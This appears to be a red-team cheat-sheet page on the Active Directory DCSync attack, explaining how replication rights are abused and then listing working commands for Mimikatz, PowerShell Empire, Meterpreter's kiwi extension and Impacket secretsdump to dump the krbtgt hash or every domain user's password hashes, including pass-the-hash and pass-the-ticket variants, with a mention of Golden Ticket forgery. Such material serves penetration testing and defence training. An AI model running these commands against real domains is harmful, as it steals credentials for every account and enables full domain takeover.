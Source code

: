# DCSync

Most organizations need more than one domain controller for their Active Directory and to maintain consistency among multiple Domain controller, it is necessary to have the Active Directory objects replicated through those DCs with the help of MS-DRSR refer as Microsoft feature Directory Replication Service (DRS) Remote Protocol that is used to replicate users data from one DC to another. Taking Advantage of this feature the attack abuse the MS-DRSR using Mimikatz-DCSYNC.

{% hint style="info" %}
Any member of Administrators, Domain Admins, or Enterprise Admins as well as Domain Controller computer accounts are able to run DCSync to pull password data.
{% endhint %}

## <mark style="color:red;">**DCSYNC Attack**</mark>

The Mimikatz DCSYNC-function allows an attacker to replicate Domain Controller (DC) behaviour. Typically impersonates as a domain controller and request other DC’s for user credential data via GetNCChanges.

But compromised account should be a member of administrators, Domain Admin or Enterprise Admin to retrieve account password hashes from the others domain controller. As a result, the intruder will build Kerberos forged tickets using a retrieved hash to obtain any of the Active Directory ‘s resources and this is known as **Golden Ticket** attack.

{% hint style="info" %}
**For this attack to work, we need to have a user account with domain admins membership.**
{% endhint %}

### <mark style="color:orange;">**Using Mimikatz DCSync**</mark>

```
# DCSync only one user
mimikatz# lsadump::dcsync /domain:htb.local /user:krbtgt

# DCSync all users of the domain
mimikatz# lsadump::dcsync /domain:htb.local /all /csv
```

{% hint style="info" %}
Read-Only Domain Controllers are not allowed to pull password data for users by default.
{% endhint %}

### <mark style="color:orange;">**PowerShell Empire**</mark>

```
usemodule credentials/mimikatz/dcsync_hashdump
set user krbtgt
execute
```

the Empire has a similar module that retrieves the hash of the entire domain controller users account.

```
usemodule credentials/mimikatz/dcsync_hashdump
execute
```

### <mark style="color:orange;">**Metasploit**</mark>

If you have meterpreter session of the victim machine who account is member of domain admin, then here also you can execute Mimikatz-DCSYNC attack in order to obtain user’s password.

```
load kiwi
dcsync_ntlm krbtgt
dcsync krbtgt
```

### <mark style="color:orange;">Impacket secretsdump</mark>

```
# using a plaintext password
secretsdump -outputfile 'something' 'DOMAIN'/'USER':'PASSWORD'@'DOMAINCONTROLLER'
​
# with Pass-the-Hash
secretsdump -outputfile 'something' -hashes 'LMhash':'NThash' 'DOMAIN'/'USER'@'DOMAINCONTROLLER'
​
# with Pass-the-Ticket
secretsdump -k -outputfile 'something' 'DOMAIN'/'USER'@'DOMAINCONTROLLER'
```
